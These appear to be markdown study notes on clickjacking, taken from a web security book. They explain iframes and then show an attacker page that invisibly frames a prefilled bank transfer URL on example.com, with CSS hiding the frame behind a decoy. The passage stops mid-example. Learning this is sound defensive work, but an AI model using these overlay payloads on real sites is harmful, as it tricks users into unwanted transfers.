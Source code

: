# What is clickjacking
 Clickjacking, or user-interface redressing, is an attack that tricks users into clicking a malicious button that has been made to look legitimate. Attackers achieve this by using HTML page-overlay techniques to hide one web page within another.
==Note that clickjacking is rarely considered in scope for bug bounty programs, as it usually involves a lot of user interaction on the victim’s part==
# Mechanisms
Clickjacking relies on an HTML feature called an `iframe`. HTML iframes allow developers to embed one web page within another by placing an `<iframe>` tag on the page, and then specifying the URL to frame in the tag’s src attribute.

Iframes useful as it allow you to embed other internet resources, like videos and audio, ex: 

```html
<iframe width="560" height="315"
src="https://www.youtube.com/embed/d1192Sqk" frameborder="0"
allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" 
allowfullscreen>
</iframe>
```

Let’s say that `example.com` is a banking site that includes a page for transferring your money with a click of a button.
You can access the balance transfer page with the URL `https:// www.example.com/transfer_money`, This URL accepts two parameters: the recipient account ID and the transfer amount If you visit the URL with these parameters present, such as `https://www.example.com/transfer_money?recipient=RECIPIENT_ACCOUNT &amount=AMOUNT_TO_TRANSFER`, the HTML form on the page will appear prefilled 

![](../../Media/Web%20AppSec%20Images/Pasted%20image%2020240221221121.png)

Now imagine that an attacker embeds this sensitive banking page in an `iframe` on their own site, like this:
```html
<!--This iframe embeds the URL for the balance transfer page -->
<html>
 <h3>Welcome to my site!</h3>
 <iframe src="https://www.example.com/transfer_money?
 recipient=attacker_account_12345&amount=5000" 
 width="500" height="500">
 </iframe>
</html>
```

Take a look at the full HTML page example:
```html
<html>
 <style>
 #victim-site {
 width:500px;
Clickjacking   147
 height:500px;
 opacity:0.00001; /*We then make the iframe invisible by setting its opacity to a very low value*/
 z-index:1; /*higher z-index value will be on top*/
 }
 #decoy {
 position:absolute; /*set decoy element to absolute to make the decoy site overlap with the iframe containing the victim site, Without the absolute position directive, HTML would display these elements on separate parts of the screen*/
 width:500px;
 height:500px;
 z-index:-1;
 }
 </style>
```